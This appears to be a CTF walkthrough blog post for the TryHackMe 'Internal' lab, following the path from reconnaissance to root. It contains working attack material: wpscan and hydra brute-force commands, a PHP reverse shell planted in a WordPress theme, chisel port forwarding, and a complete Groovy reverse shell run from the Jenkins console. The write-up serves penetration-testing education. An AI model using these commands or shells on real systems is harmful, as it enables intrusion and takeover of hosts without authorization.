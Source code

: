 ```yaml
---
title: TryHackMe - Internal
author: Fawaz Masood Qureshi
date: 2021-04-12 18:00:00 +0500
comments: false
categories: [CTF-Walkthroughs, Tryhackme-Rooms]
tags: [ctf, tryhackme]
---
```


[Intenal](https://tryhackme.com/room/internal) is a hard difficulty penetration testing challenge created by [TheMayor](https://tryhackme.com/p/TheMayor). 

## Enumeration
Lets start our nmap scan and see what ports are open and what services are running on these ports.
### nmap scan result:

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 19:18 PKT  
Nmap scan report for 10.10.94.39 (10.10.94.39)  
Host is up (0.49s latency).  
  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)  
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)  
|\_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|\_http-server-header: Apache/2.4.29 (Ubuntu)  
|\_http-title: Apache2 Ubuntu Default Page: It works  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 32.28 seconds

```

So we have two ports open, **22** and **80**. Let us first enumerate the content on port 80.

### Enumerating the port 80:
First thing we can do is to check for any files or directories on the server:
```bash
dirsearch -u http://10.10.94.39/ -e php,html,bak -w /wordlists/directory-list-2.3-medium.txt -t 100
```
![](/assets/img/posts/thm-internal/Screenshot_20210408_195726.png)

If we visit the **/blog/** page, we can see it is using wordpress cms. Lets use wpscan:
```bash
wpscan --url http://10.10.179.3/blog/ -e u
```
wpscan found a username **admin**.  So now we can try to bruteforce the passwords. Hydra can be used, but wpscan can also be used for this purpose:
```bash
wpscan --url http://10.10.179.3/blog/ -e u -t 400 -P /wordlists/rockyou.txt
```
Found a valid password for user **admin**:

![](/assets/img/posts/thm-internal/Screenshot_20210409_173140.png)

So now we can use these credentials and login as admin.

While checking the admin panel, we see that there are two posts. From which one is private. This post contains some sort of credentials.

![](/assets/img/posts/thm-internal/Screenshot_20210409_181146.png)

Hmm! So maybe we can try those on port 22? Unfortunately, it did not work. Seems like a rabbit hole :( Lets continue with the admin panel.
Well in the themes section, we can see a theme **twenty seventeen** is installed. Lets edit this one.
We have access to mutiple **.php** files. So simply uploading a reverse shell in one file can give us a shell!

![](/assets/img/posts/thm-internal/Screenshot_20210409_182015.png)

I used the following reverse shell from pentestmonkey github repo:
[Link](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

After setting up a netcat listener we can browse to non-existing endpoint on the blog so that the 404.php code runs. As soon as we hit the 404.php, we will get a reverse shell:

![](/assets/img/posts/thm-internal/Screenshot_20210409_182822.png)

Okay, we are in! 

## Post exploitation
We can see a user `aubreanna` in the home directory. Doing a little enumeration on the box revealed that there is a jenkins server running locally:
```bash
netstat -anotp
```

![](/assets/img/posts/thm-internal/Screenshot_20210409_211849.png)

We can see that port **8080** is open and listening. Now if we list the processes, we will see a java program running (which is jenkins):
```bash
ps aux
```

![](/assets/img/posts/thm-internal/Screenshot_20210409_212153.png)

> Jenkins is a free and open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery.

Googling about jenkins reveals that the default port for jenkins is **8080**.

### Port Forward
To access the jenkins from our local machine, we'll need to forward the port. I'll be using **chisel**.

First we'll need to get the chisel binary on the target system. This can be done using a smple python server. 
Once we have chisel on the target we can start chisel server at target:
```bash
chisel server -p 6666	# we can choose any random port
```
Then on our local machine:
```bash
chisel client <Target Ip>:6666 9999:127.0.0.1:8080	# 9999 is our local machine's port
```

![](/assets/img/posts/thm-internal/Screenshot_20210410_194257.png)

Now we'll be able to access the jenkin from our local machine at the address **`127.0.0.1:9999`:**

![](/assets/img/posts/thm-internal/Screenshot_20210410_194426.png)

I tried the credentials that we found so far but both did not worked. So lets brutforce the login. I'll be using Hydra here:

```bash
hydra -l admin -P /wordlists/rockyou.txt 127.0.0.1 -s 9999  http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid+username+or+password'
```

![](/assets/img/posts/thm-internal/Screenshot_20210410_212228.png)

And we found the password. Using that passowrd we can login as admin in jenkins.
Once we are in, we can run groovy script on the jenkins console. I used the following reverse shell written in groovy:

```groovy
String host="Our-machine-ip";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](/assets/img/posts/thm-internal/Screenshot_20210410_213433.png)

And we got a shell as user jenkins. Doing a little enumeration reveals that there is a file at **`/opt`** containing credentials for root user:

```
jenkins@jenkins:/opt$ cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:PASS-WILL-BE-HERE
```

So we just need to switch user to root or we can ssh into target as root. Whatever you prefer.

![](/assets/img/posts/thm-internal/Screenshot_20210410_215257.png)

And the box is finally rooted!

I hope you enjoyed while reading this walkthrough and learnt something today.